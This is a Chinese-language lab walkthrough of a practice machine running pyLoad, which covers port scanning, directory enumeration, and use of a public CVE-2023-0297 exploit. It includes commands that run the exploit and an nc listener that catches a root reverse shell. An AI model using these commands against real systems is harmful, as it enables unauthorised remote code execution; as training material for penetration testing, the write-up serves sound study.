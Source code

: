 ```yaml
---
description: Easy - Linux / pyLoad 0.5 / RCE / CVE-2023-0297
---
```


# ✔️ pyLoader

## 建立立足点

### 信息收集&#x20;

* 使用Nmap对目标系统的开放端口进行扫描，获取到2个开放端口：22和9666

```bash
nmap -sC -sV -p- -oA pyloader 192.168.183.26 --open
```

<figure><img src="../../.gitbook/assets/1 (1) (1).png" alt=""><figcaption></figcaption></figure>

* 枚举9666端口上的隐藏文件/目录，依次查看无收获：

```bash
dirsearch -u http://192.168.183.26:9666 -x 404,403,401,302,301,400
```

<figure><img src="../../.gitbook/assets/2 (35).png" alt=""><figcaption></figcaption></figure>

* 检查9666端口发现是一个登录界面，尝试几个弱口令均失败：

<figure><img src="../../.gitbook/assets/3 (32).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 该页面直接显示了当前正在运行的程序是pyLoad，直接搜索发现唯一一个公开漏洞：CVE-2023-0297 未认证的 PyLoad <0.5.0b3.dev31 远程代码执行

<figure><img src="../../.gitbook/assets/4 (33).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/5 (33).png" alt=""><figcaption></figcaption></figure>

* Exploit： https://github.com/JacobEbben/CVE-2023-0297/blob/main/exploit.py

<figure><img src="../../.gitbook/assets/6 (33).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接利用该脚本即可获取到拥有root权限的反弹shell：

```bash
python3 exploit.py -t http://192.168.183.26:9666 -I 192.168.45.179 -P 4444
# 监听：
nc -lvnp 4444
```

<figure><img src="../../.gitbook/assets/7 (33).png" alt=""><figcaption></figcaption></figure>
